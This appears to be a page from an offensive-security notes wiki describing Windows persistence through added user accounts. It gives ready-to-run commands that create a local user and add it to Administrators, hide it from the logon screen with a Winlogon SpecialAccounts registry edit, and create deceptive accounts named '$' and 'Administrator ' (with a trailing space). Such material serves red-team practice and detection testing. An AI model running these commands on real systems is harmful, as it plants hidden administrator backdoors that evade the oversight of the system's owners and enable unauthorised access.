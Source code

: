 # Add User

## <mark style="color:red;">Hide From Logon Screen</mark>

Creating User and Adding to Local Administrators

```
net user spotless spotless /add & net localgroup Administrators spotless /add
```

Hide Newly Created Local administrator

{% hint style="danger" %}
This will only hide the username from winlogon screen (windows login GUI screen),  but the user can be detected with <mark style="color:green;">`net user`</mark> command
{% endhint %}

```
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /t REG_DWORD /v spotless /d 0 /f
```

## <mark style="color:red;">Create a Hidden User Called "$"</mark>

Creating a user with a username containing "$"

```
net user $ ATOMIC123! /add /active:yes
```

## <mark style="color:red;">Create an "Administrator " user (with a space on the end)</mark>

```
New-LocalUser -Name "Administrator " -NoPassword
```
